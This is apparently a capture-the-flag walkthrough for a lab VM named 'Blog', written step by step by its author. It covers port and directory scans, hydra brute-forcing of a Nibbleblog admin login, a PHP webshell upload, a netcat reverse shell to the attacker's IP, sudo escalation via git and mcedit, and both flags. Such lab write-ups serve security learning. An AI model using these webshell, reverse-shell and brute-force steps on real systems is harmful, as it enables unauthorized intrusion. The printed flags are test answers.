 # Blog (Easy)

>MrMidnight |  11.August.2022

-------------

### Target IP: 192.168.1.102

## 1. Scans

Lets do some scans first for recon:

```bash
nmap -sC -sV -oA scans/Nmap/target 192.168.1.102
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 56:9b:dd:56:a5:c1:e3:52:a8:42:46:18:5e:0c:12:86 (RSA)
|   256 1b:d2:cc:59:21:50:1b:39:19:77:1d:28:c0:be:c6:82 (ECDSA)
|_  256 9c:e7:41:b6:ad:03:ed:f5:a1:4c:cc:0a:50:79:1c:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:EA:78:A8 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ah yes a http server running on the default port. We should check it out.

```
PING blog.hmv (127.0.1.1) 56(84) bytes of data.
64 bytes from blog.hmv (127.0.1.1): icmp_seq=1 ttl=64 time=0.016 ms

--- blog.hmv ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.016/0.016/0.016/0.000 ms
```

Hmm strange. The page shows a ping statistics for "blog.hmv". Maby we should add that to our /etc/hosts.

Even after we added that, the page still shows the statistics. This means that this is a fake site with fake statistics. Well then lets try our luck on a gobuster directory scan:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://blog.hmv -o scans/Gobuster/gobuster
```

And yes we got an result. Lets visit it!
```
/my_weblog            (Status: 301) [Size: 308] [--> http://blog.hmv/my_weblog/]
```

Lets do a second scan because there isnt anything on the site that is relevant:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://blog.hmv/my_weblog -o scans/Gobuster/gobuster2
```


```
/content              (Status: 301) [Size: 316] [--> http://blog.hmv/my_weblog/content/]
/themes               (Status: 301) [Size: 315] [--> http://blog.hmv/my_weblog/themes/]
/admin                (Status: 301) [Size: 314] [--> http://blog.hmv/my_weblog/admin/]
/plugins              (Status: 301) [Size: 316] [--> http://blog.hmv/my_weblog/plugins/]
/README               (Status: 200) [Size: 902]
/languages            (Status: 301) [Size: 318] [--> http://blog.hmv/my_weblog/languages/]

```

/admin seems to he interesting enough. After visiting that, the site seems to be empty. So lets add scanning for php into the script:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://blog.hmv/my_weblog -x php -o scans/Gobuster/gobuster3
```

As I expected, its "admin.php":

```
/index.php            (Status: 200) [Size: 4303]
/content              (Status: 301) [Size: 316] [--> http://blog.hmv/my_weblog/content/]
/themes               (Status: 301) [Size: 315] [--> http://blog.hmv/my_weblog/themes/] 
/feed.php             (Status: 200) [Size: 993]                                         
/admin                (Status: 301) [Size: 314] [--> http://blog.hmv/my_weblog/admin/]  
/admin.php            (Status: 200) [Size: 1395]                                        
/plugins              (Status: 301) [Size: 316] [--> http://blog.hmv/my_weblog/plugins/]
/README               (Status: 200) [Size: 902]                                         
/languages            (Status: 301) [Size: 318] [--> http://blog.hmv/my_weblog/languages/]

```

## 2. Cracking into admin dashboard

The webserver runs Nibbleblog which is exploitable if we have the Username and Password. Lets try getting them.

Since its a admin login page, I will assume that the user is admin since there arent any hints to other users. We can bruteforce the password tho:

```bash
hydra -t 64 -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.102 http-post-form "/my_weblog/admin.php:username=admin&password=^PASS^:Incorrect"
```

After a few minutes, we got the credentials:

```
[80][http-post-form] host: 192.168.1.102   login: admin   password: kisses
```


## 3. Getting inside
Lets take a look at the admin dashboard. On the left side, under Plugins is a modules that allows you to upload files. Its called "Plugin My images". Here we can upload a php payload, to gain reverse connection. So lets do that:

Image.php
```php
<?php system($_GET['cmd']); ?>
```

This should genereate a simple webshell. Now whats left is uploading it to the site.

After its uploaded we should be able to access it on "/content/private/plugins/my_image/image.php":

```url
http://blog.hmv/my_weblog/content/private/plugins/my_image/image.php?cmd=id
```

And yes we got remote command execution!
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

For the revshell ill use a nc rev shell. Ulr encoded ofcourse:
```
nc -e /bin/sh 192.168.1.100 4200
nc%20-e%20/bin/sh%20192.168.1.100%204200
```

Not to forget, a nc listener aswell:
```
nc -lnvp 4200
```

If everything went good, we shold be inside the system.


## 4. Priv esc to admin user (not root)

We should upgrade the shell to an [intelligent reverse shell](“/content/private/plugins/my_image/image.php). This will be useful later!

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
cd /
Ctrl z  
stty raw -echo;fg
enter
export TERM=xterm
stty rows 30 cols 168
```

And we are done! This is now a intelligent shell.

Lets enum for admin now:

```bash
sudo -l
```

We can run "/usr/bin/git" as admin without providing a password.

```bash
sudo -u admin git -p help config
!/bin/bash
```

[This]([https://gtfobins.github.io/gtfobins/git/#sudo](https://gtfobins.github.io/gtfobins/git/#sudo)) should update our privilege to admin.

## USER-FLAG
>a8nMuByPMCpuj9NtFPmCG9i2dKZGN3

## 5. Getting the root flag

Using "sudo -l" again, we can see that we can access "/usr/bin/mcedit"


```bash
sudo -u root /usr/bin/mcedit
```

In the opened interface, press (Alt+F) to open a menu. Open the "File" dropdown and scroll to "open menu". Now scroll down to "Invoke shell" to get a root shell.


## ROOT-FLAG
```bash
cat /root/r0000000000000000000000000t.txt
```

>fO6QQxO1onROP1bgvwJRVgbtPQ3RQ4